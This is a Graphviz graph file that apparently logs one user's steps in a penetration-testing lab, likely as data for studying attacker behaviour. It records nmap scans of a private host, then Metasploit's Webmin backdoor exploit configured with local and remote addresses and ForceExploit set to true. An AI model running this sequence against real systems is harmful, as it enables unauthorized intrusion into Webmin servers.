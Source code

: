 // creating graph for user: 91
digraph {
	node [shape=box]
	0 [label="nmap -h A0 A1 "]
	1 [label="nmap -h A0 A1 "]
	2 [label="nmap -p 1-65535 172.18.1.5 M0 "]
	3 [label="nmap -A -p 10000 172.18.1.5 A1 "]
	4 [label="msfconsole M2 "]
	5 [label="use exploit/linux/http/webmin_backdoor M8 "]
	6 [label="use exploit/unix/http/webmin_backdoor U"]
	7 [label="search webmin M3 "]
	8 [label="use exploit/unix/webapp/webmin_backdoor  U"]
	9 [label="show options M5 "]
	10 [label="set lhost 10.1.135.83 A6 "]
	11 [label="set rhosts 172.18.1.5 A6 "]
	12 [label="show targets U"]
	13 [label="show options U"]
	14 [label="exploit  U"]
	15 [label="set srvhost 10.1.135.83 A6 "]
	16 [label="exploit  U"]
	17 [label="show options U"]
	18 [label="set ForceExplot A6 "]
	19 [label="set ForceExploit A6 "]
	20 [label="set ForceExploit true A6 "]
	21 [label="exploit U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	rankdir=LR
}

